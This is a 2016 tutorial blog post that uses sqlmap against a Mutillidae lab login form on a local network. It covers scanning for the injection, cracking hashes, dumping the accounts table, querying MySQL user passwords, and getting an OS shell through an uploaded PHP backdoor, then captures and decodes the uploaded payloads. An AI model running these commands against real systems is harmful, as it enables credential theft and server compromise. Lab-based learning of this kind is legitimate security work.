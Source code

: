+++
topics = []
tags = [ "infosec", "sql", "sql-injection", "sqlmap", "packet-analysis", "ngrep", "wireshark", "python", "vulnerability-scanner", "scanning"]
date = "2016-05-07T00:00:00+08:00"
title = "SQL injection with sqlmap"
draft = false
description = "os-shell access, capture and inspect the payload"
toc = true

+++

{{<toc>}}

---
## Scan for vulnerability

### Create a HTTP request file

1. Use `-r` option instead of passing long parameters of `--url`, `--user-agent`, etc.

	**Note:** use packet capture utility such as `ngrep` to facilitate the process.

    ```
    sqlmap -r REQUESTFILE ...
    -r REQUESTFILE      Load HTTP request from a file
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-01.png" >}}

2. Clean-up the trailing `.` (non-printable char displayed by `ngrep`), and write to a file e.g., `mutillidae-login.request`

	{{< fluid_img "/img/sql-injection-with-sqlmap-02.png" >}}


### Scan the target

1. Launch the scan with the `-r` and use the request file created above, it will take some time:

    ```
    $ sqlmap -r -mutillidae-login.request --batch --banner
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-03.png" >}}

2. Once a vulnerability is found, it will print the parameter that's vulnerable, the injection type, and the payload used to carried out the injection. The following scan results indicate total of three type of injections found.
	* boolean-based blind
	* error-based
	* AND/OR time-based blind

	{{< fluid_img "/img/sql-injection-with-sqlmap-04.png" >}}

	Note: the `--technique` option can be used to specifically target one type of attack.

    ```
     --technique=BEUSTQ,
       B=boolean-based blind, E=error-based, U=union-query-based, S=stacked queries,
       T=time-based blind, Q=inline queries
    ```

## Explore the vulnerable target's databases and system

### Dictionary attack against password hashes and dump full credentials

1. Once entered the system, crack the passwords

    ```
    $ sqlmap -r mutillidae-login.request --batch --passwords
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-05.png" >}}

2. List the databases:

    ```
    $ sqlmap -r mutillidae-login.request --batch --dbs
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-06.png" >}}

3. List the tables:

    ```
    $ sqlmap -r mutillidae-login.request --batch --tables -D nowasp
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-07.png" >}}

4. Dump the `nowasp.accounts` table:

    ```
    $ sqlmap -r mutillidae-login.request --batch --dump -T accounts -D nowasp
    ```

	{{< fluid_img "/img/sql-injection-with-sqlmap-08.png" >}}

Notes:- Some other commonly used options to explore the system:

```
$ sqlmap -r mutillidae-login.request --current-user
$ sqlmap -r mutillidae-login.request --privileges
$ sqlmap -r mutillidae-login.request --dbms=mysql -D mysql --sql-query="select user,password from mysql.user order by user desc"
```

### OS Shell Access

Note: see section [Capture and decode the payload]({{< relref "#capture-and-decode-the-payload" >}}) to retrieve the payloads.

```
$ sqlmap -r mutillidae-login.request --batch --os-shell
```

{{< fluid_img "/img/sql-injection-with-sqlmap-09.png" >}}

### Behind the scene

The file stager (1) `tmpuntbv.php` is first uploaded to the `/var/www/html` as explained in section [Capture and decode the payload]({{< relref "#capture-and-decode-the-payload" >}}). 

Then, the backdoor (2) `tmpbyovw.php` is uploaded to the server through `tmpuntbv.php`.

{{< fluid_img "/img/sql-injection-with-sqlmap-14.png" >}}

All shell commands' requests are made through the backdoor script `tmpbyovw.php` to 192.168.1.9 and results are returned to the 192.168.1.11.

{{< fluid_img "/img/sql-injection-with-sqlmap-13.png" >}}

### Speedup the process and specify custom injection payloads

To speedup the process, pass as many parameters to shorten the processing time. For examples:

```
-p TESTPARAMETER      Testable parameter(s)
--dbms=DBMS           Force back-end DBMS to this value
--technique=TECH      SQL injection techniques to use (default "BEUSTQ")
```


---
## Capture and decode the payload

From the sqlmap stdout, pins down the files (payloads) uploaded:

{{< fluid_img "/img/sql-injection-with-sqlmap-10.png" >}}


### with Ngrep

```
$ ngrep -d eth0 -qt -W byline "^GET | ^POST" "port 80 and host 192.168.1.11"
```

Look for the files uploaded described above:

{{< fluid_img "/img/sql-injection-with-sqlmap-11.png" >}}

### with Wireshark

Use the following capture and display filters:

```
Capture filter: not broadcast and not multicast and host 192.168.1.11
Display filter (1): http contains "tmpuntbv.php"
Display filter (2): http contains "tmpbyovw.php"
```

From the matching packet, do {{< glow_text_app_menu "'Follow'" >}} &rarr; {{< glow_text_app_menu "'HTTP Stream'" >}}:

{{< fluid_img "/img/sql-injection-with-sqlmap-12.png" >}}


### Decode the payload
Unquote the url strings with:

{{< highlight python >}}
import sys
import urlparse
import codecs
buf = urlparse.unquote(sys.argv[1])
print buf
{{< /highlight >}}

produces,

{{< fluid_img "/img/sql-injection-with-sqlmap-15.png" >}}

and decodes the hex (starting from ~~0x~~`3c3f`... until ...`3e0a`) with,

{{< highlight python >}}
payload = sys.argv[1]
print codecs.decode(payload, "hex")
{{< /highlight >}}

produces,

{{< fluid_img "/img/sql-injection-with-sqlmap-16.png" >}}

the code basically handling file uploads and also change the uploaded files permission to `0755`.
